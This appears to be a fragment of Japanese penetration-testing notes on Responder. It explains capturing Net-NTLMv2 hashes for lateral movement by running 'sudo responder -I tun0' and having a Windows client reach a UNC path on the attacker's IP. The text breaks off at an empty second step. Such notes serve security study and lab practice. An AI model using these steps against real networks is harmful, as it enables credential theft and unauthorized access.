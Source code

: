 # Responder
ローカルの管理者権限(SYSTEM権限)を取得できておらずMimikatzを使えない状態で、Net-NTLMv2を取得して横展開するときなどに使える。  
Net-NTLMv2はSMBにアクセスするときにハッシュを送信するため、ネットワークのパケットをキャプチャするとハッシュを取得できる。

## コマンド集

1. Net-NTLMv2ハッシュを取得するため、SMBを立ち上げてパケットをキャプチャする
```
sudo responder -I tun0
```  
クライアント側からは、//192.168.205.4/hoge.phpのようにして指定できる。ターゲットがWindowsマシンならNTLM取得もできる。


2. 